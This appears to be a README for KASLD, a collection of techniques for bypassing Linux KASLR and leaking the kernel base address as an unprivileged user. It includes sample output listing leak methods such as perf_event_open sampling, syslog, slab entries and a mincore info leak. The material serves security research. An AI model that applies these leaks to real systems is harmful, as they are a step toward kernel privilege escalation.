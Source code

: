 # [ KASLD ] Kernel Address Space Layout Derandomization

A collection of various techniques to bypass KASLR and retrieve
the Linux kernel base virtual address on x86 / x86_64 architectures
as an unprivileged user.

The code is structed for easy re-use; however, leaked addresses
may need to be bit masked appropriately for the target kernel.

Various code snippets were taken from third-parties and may
have license restrictions. Refer to the reference URLs in the
comment headers available in each file for more information.

Android is not supported.


## Example Output

### Ubuntu 16.04 (x64)

```
$ ./kasld 
[ KASLD ] Kernel Address Space Layout Derandomization

Kernel release: 4.4.0-21-generic
Kernel version: #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016
Kernel arch:    x86_64

kernel base (arch default): ffffffff81000000

[.] checking /boot/config ...

[.] trying /proc/cmdline...

[.] trying /proc/kallsyms...
[-] kernel base not found in /proc/kallsyms

[.] trying /sys/kernel/slab/ ...
leaked init_net: ffffffff81ef3cc0
kernel base (possible): ffffffff81e00000
kernel base (possible): ffffffff81000000

[.] trying perf_event_open sampling ...
lowest leaked address: ffffffff81094f86
kernel base (likely): ffffffff81000000
kernel base (likely): ffffffff81000000

[.] trying syslog ...
leaked address: ffffffff820b2000
kernel base (likely): ffffffff81000000
kernel base (likely): ffffffff81000000

[.] trying 'pppd file /proc/kallsyms 2>&1' ...

[.] trying mincore info leak...
leaked address: ffffffff81220df0
kernel base (possible): ffffffff81200000
kernel base (possible): ffffffff81000000

[.] checking CPU TSX/RTM support ...
[-] CPU does not support TSX/RTM

[.] checking /sys/devices/system/cpu/vulnerabilities ...

```